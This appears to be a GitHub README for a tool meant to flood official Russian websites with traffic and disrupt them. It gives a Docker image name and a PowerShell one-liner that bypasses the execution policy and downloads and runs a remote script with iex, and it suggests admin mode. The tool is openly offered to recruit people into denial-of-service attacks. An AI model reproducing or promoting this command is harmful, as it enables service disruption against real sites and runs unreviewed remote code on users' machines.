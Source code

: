 # What is this

The following script is flooding official Russian web sites with Internet traffic and causes disruption. 

## Docker (linux only)

givethemhell/shutthemdown

## How to Run (Windows 7+ only)
1. Open 'Windows PowerShell'. You may need to open it in admin/privilidedg mode
1. Copy and Paste the following script in the Powershell Window and Press Enter
```ps
Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/givethemhell/shutthemdown/main/script.ps1'))
```

The script will create separate jobs that will constantly send requests to the listed web sites in the script. The script works as long as the PowerShell Window is open. If you want to stop the script, close the PowerShell window.

Thank you!
